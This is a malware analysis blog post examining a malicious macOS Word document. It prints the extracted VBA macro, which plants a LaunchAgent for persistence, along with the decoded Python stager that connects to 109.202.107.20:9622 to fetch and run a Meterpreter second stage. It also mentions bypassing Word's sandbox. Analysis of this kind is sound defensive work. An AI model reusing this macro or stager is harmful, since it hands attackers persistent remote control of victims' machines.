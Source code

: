 ```yaml
---
title: iScam:When a Word Document Wields More Than Just Words
author: Vishal Chand
date: 2025-01-22
categories: [Malware Analysis]
tags: [MacOS,Word Document]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/11.png
---
```

First let's confirm file type by using `file` command.

![file type](/assets/img/posts/13.png)

So it's a word document!

Now let put this up in [Virus Total](https://www.virustotal.com/gui/) 

![md5](/assets/img/posts/12.png)

> Word documents are actually compressed archives (containing XML files).Which means we can “unzip” the document to view its contents.
{: .prompt-info }

![unzip](/assets/img/posts/14.png)

> VBA macros [in a Word Document] are usually stored in a binary `OLE file` within the compressed archive, called vbaProject.bin
{: .prompt-info }

In above picture we can see the presence of `vbaProject.bin`, which means Word document contains macros!

To extract embedded macros we can use clamAV's `sigtool`. vbaProject.bin a binary OLE file.

You can install clamAV via the following:
```shell
brew install clamav
```
> Executing sigtool with the --vba flag, extracts the embedded macros from the word/vbaProject.bin
{: .prompt-tip } 

```shell
bornpresident@President-iMac Downloads % sigtool --vba word/vbaProject.bin 
-------------- start of code ------------------
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True

-------------- end of code ------------------


-------------- start of code ------------------
Attribute VB_Name = "NewMacros"
Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
Private Sub Document_Open()
Dim path As String
Dim payload As String
payload = "import base64,sys;exec(base64.b64decode({2:str,3:lambda ... }[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ" & _
"1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29" & _
"ubmVjdCgoJzEwOS4yMDIuMTA3LjIwJyw5NjIyKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWN" & _
"rKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')));"
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
'Result = system("launchctl bootout gui/$UID", "r")
End Sub
-------------- end of code ------------------
```
`Private Sub Document_Open()`event occurs when a document is opened.So, the Visual Basic macro code within the in the Document_Open() subroutine will be executed when the malicious Word document,BitcoinMagazine-Quidax_InterviewQuestions_2018.docm, is opened.

So what does the code in the Document_Open() subroutine do?

1. Decodes a chunk (of what appears to be python) code into a variable named payload.
2. Builds a path to a launch agent plist…in a rather interesting manner.
3. Builds a launch agent plist (com.xpnsec.plist) saving this into a variable named arg.
4. Saves said launch agent to disk, via the system command.
5. Forces a logout via launchctl bootout gui/$UID.

> It's not that easy to run macro code within a malicious document beacuse of `Word’s sandbox` but it can bt bypassed. Please refer:[Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)
{: .prompt-info }

#### Decoding python shell
```python
$ python
>>> import base64
>>> payload = "aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5n...30pCg=="
>>> base64.b64decode(payload)

"import socket,struct,time\nfor x in range(10):\n\ttry:\n\t\ts=socket.socket(2,socket.SOCK_STREAM)\n\t\ts.connect(('109.202.107.20',9622))\n\t\tbreak\n\texcept:\n\t\ttime.sleep(5)\nl=struct.unpack('>I',s.recv(4))[0]\nd=s.recv(l)\nwhile len(d)<l:\n\td+=s.recv(l-len(d))\nexec(d,{'s':s})\n"
```
```python
import socket, struct, time

for x in range(10):
  try:
    s=socket.socket(2,socket.SOCK_STREAM)
    s.connect(('109.202.107.20',9622))        //Tries to connect a server at 109.202.107.20 on port 9622 for 10 times
    break
  except:
    time.sleep(5)

l=struct.unpack('>I',s.recv(4))[0]  //Receives 4 bytes from the server (this is variable length of the rest of the payload)
d=s.recv(l)

while len(d)<l:
  d+=s.recv(l-len(d))

exec(d,{'s':s})  //Executes the payload (our 2nd payload)
```
#### Stage 2

```python
$ python download.py 

#!/usr/bin/python
import binascii
import code
import os
import platform

...

try:
    import ctypes
except ImportError:
    has_windll = False
else:
    has_windll = hasattr(ctypes, 'windll')

...

#@export
class MeterpreterChannel(object):
    def core_close(self, request, response):
        self.close()
        return ERROR_SUCCESS, response

...

#@export
class MeterpreterFile(MeterpreterChannel):
    def __init__(self, file_obj):
        self.file_obj = file_obj
        super(MeterpreterFile, self).__init__()

...

#@export
class MeterpreterProcess(MeterpreterChannel):
    def __init__(self, proc_h):

...
```
2nd stage payload is meterpreter. 




